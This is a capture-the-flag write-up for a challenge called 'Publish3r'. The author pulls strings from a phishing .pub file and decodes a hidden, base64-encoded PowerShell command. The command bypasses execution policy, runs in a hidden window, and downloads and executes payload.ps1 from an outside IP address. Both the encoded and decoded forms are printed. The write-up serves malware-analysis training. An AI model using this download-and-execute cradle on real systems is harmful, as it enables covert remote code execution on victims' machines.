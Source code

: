 # Publish3r - 225pts
We believe we found a malicious file on someone's workstation. Judging by looking at it, the file likely came from a phishing email. Anyways, we'd like you to analyze the sample, so we can see what would have happened if it executed successfully. That way we can hunt for signs of it across the enterprise. Your flag will be the URL that the malware is trying to reach out to! Can you do it? Format: MetaCTF{http://.........}

Note: We've put the actual file in an encrypted 7z so your browser doesn't complain when downloading it (and our site doesn't get flagged as malware). The password is metactf
<hr>

After unzipping the 7zip archive, we are presented `Publish3r.pub`. 

Let's take a look at the file contents using `strings Publish3r.pub`. If we go through all the strings, one stands out from the rest:
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec Bypass -windowstyle hidden -enc SQBFAHgAIAAoACgAbgBFAFcALQBPAEIASgBlAEMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACgAIgBoAHQAdABwADoALwAvADEAMwAuADMANwAuADEAMAAuADEAMAA6ADQANAA0ADMALwBkAG8AYwAvAHAAYQB5AGwAbwBhAGQALgBwAHMAMQAiACkAKQApAA==
```

Here we have a PowerShell script. with the actual script itself being base64 encoded. Let's decode this using 
```shell
echo "SQBFAHgAIAAoACgAbgBFAFcALQBPAEIASgBlAEMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACgAIgBoAHQAdABwADoALwAvADEAMwAuADMANwAuADEAMAAuADEAMAA6ADQANAA0ADMALwBkAG8AYwAvAHAAYQB5AGwAbwBhAGQALgBwAHMAMQAiACkAKQApAA==" | base64 --decode
```

And we can see the actual PowerShell script being executed:
```powershell
IEx ((nEW-OBJeCt net.webclient).downloadstring(("http://13.37.10.10:4443/doc/payload.ps1")))
```

